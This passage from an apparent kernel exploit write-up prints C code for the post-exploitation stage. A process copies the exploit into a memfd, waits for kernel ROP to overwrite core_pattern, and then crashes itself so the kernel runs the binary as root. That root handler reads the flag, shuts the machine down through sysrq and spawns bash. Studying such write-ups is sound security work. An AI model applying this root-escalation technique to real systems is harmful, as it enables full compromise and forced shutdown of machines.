 This monitoring process duplicates the current exploitation binary into a memfd (file descriptor 666), and continuously polls the contents of `/proc/sys/kernel/core_pattern`. Once a modification is detected, the process crashes via a null dereference to trigger the core dump.

``` c
void setup_core_pattern_monitor()
{
    pin_on_cpu(1);
    setsid();

    int memfd = memfd_create("", 0);
    char buf[0x100] = {};

    // Duplicate the exploit binary to memfd 666.
    sendfile(memfd, open("/proc/self/exe", 0), 0, 0xffffffff);
    dup2(memfd, 666);
    close(memfd);

    // Poll the core_pattern content and trigger segfault if it is modified.
    while (1) {
        int corefd = open("/proc/sys/kernel/core_pattern", O_RDONLY);
        read(corefd, buf, sizeof(buf));
        close(corefd);
        if (strncmp(buf, "|/proc/%P/fd/666", 0x10) == 0)
            break;
        sleep(1);
    }
    *(unsigned long *)0 = 0;
}
```

After we perform kernel ROP to overwrite the `core_pattern` to execute the memfd binary, the kernel will run the binary located at `/proc/<pid>/fd/666` when a core dump occurs.

When the memfd binary is executed via the `core_pattern` with root privileges, it receives the crashing process's PID as its second argument. The memfd handler then uses `pidfd_getfd()` to duplicate the crashing process's stdout, prints the flag, and shuts down the machine.

``` c
int main(int argc, char *argv[])
{
    // [...]
    /**
     * When the exploit succeeds, the core_pattern monitor will trigger a segfault
     * and execute the memfile as root, passing the PID as an argument.
     */
    if (argc > 1) {
        int pid = strtoull(argv[1], 0, 10);
        int pfd = syscall(SYS_pidfd_open, pid, 0);
        int stdoutfd = syscall(SYS_pidfd_getfd, pfd, 1, 0);
        dup2(stdoutfd, 1);
        
        system("cat /flag;echo o>/proc/sysrq-trigger");
        execlp("bash", "bash", NULL);
    }
    // [...]
}
```
